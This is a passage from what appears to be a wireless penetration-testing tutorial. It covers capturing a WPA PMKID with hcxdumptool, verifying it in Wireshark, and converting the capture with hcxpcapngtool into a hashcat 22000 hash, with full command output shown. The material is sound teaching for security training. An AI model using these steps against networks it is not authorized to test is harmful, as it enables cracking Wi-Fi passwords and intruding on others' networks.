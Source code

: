 
This would indicate successful capture of the PMKID. However, it can take quite a long time to capture the PMKID from the access point, but to speed things up, we can refresh the command by executing it again or alternatively specify additional flags.

If we absolutely want to ensure that we have successfully captured the PMKID, we can open our outputted capture file in Wireshark, add the `eapol` filter, and look under `message 1`. In here under `802.1X Authentication` -\> `WPA Key Data` -\> `Tag:`, we can see the RSN data for the PMKID. This should be the same as what was outputted in the terminal session from hcxdumptool. Similarly, the screenshot below shows what this process looks like.

## Analyzing the PMKID in Wireshark

![image](QUQSsCQvYY9j.png)

Once we have the PMKID captured into a pcap file, we need to convert it to a usable hash format for hashcat's `22000` option. We do so by using the `hcxpcapngtool` tool, which is part of [hcxtools](https://github.com/ZerBea/hcxtools).

## Converting the pcap to hash

```shell
hcxpcapngtool -o hash HTBPMKID.pcap

hcxpcapngtool 6.2.5 reading from HTBPMKID.pcap...

summary capture file
--------------------
file name................................: HTBPMKID.pcap
version (pcapng).........................: 1.0
operating system.........................: Linux 5.4.0-88-generic
application..............................: hcxdumptool 6.2.5
interface name...........................: wlan0mon
interface vendor.........................: 020000
openSSL version..........................: 1.0
weak candidate...........................: 12345678
MAC ACCESS POINT.........................: 50e14a262eb8 (incremented on every new client)
MAC CLIENT...............................: f0a2255a097a
REPLAYCOUNT..............................: 64168
ANONCE...................................: 957fbe3931e77aa91e562b41612e95dcb508071ad36db76288bab653bfbd4480
SNONCE...................................: f25daa2692b53615f0e37d20442542aa5c74c0b702cd18d5b8b37b9781d59a79
timestamp minimum (GMT)..................: 28.08.2024 21:41:37
timestamp maximum (GMT)..................: 28.08.2024 21:41:37
used capture interfaces..................: 1
link layer header type...................: DLT_IEEE802_11_RADIO (127)
endianness (capture system)...............: little endian
packets inside...........................: 9
packets received on 2.4 GHz..............: 9
ESSID (total unique).....................: 1
BEACON (total)...........................: 1
BEACON (detected on 2.4 GHz channel).....: 1
AUTHENTICATION (total)...................: 2
AUTHENTICATION (OPEN SYSTEM).............: 2
ASSOCIATIONREQUEST (total)...............: 1
ASSOCIATIONREQUEST (PSK).................: 1
EAPOL messages (total)...................: 4
EAPOL RSN messages.......................: 4
EAPOLTIME gap (measured maximum usec)....: 10369
EAPOL ANONCE error corrections (NC)......: working
REPLAYCOUNT gap (recommended NC).........: 8
EAPOL M1 messages (total)................: 1
EAPOL M2 messages (total)................: 1
```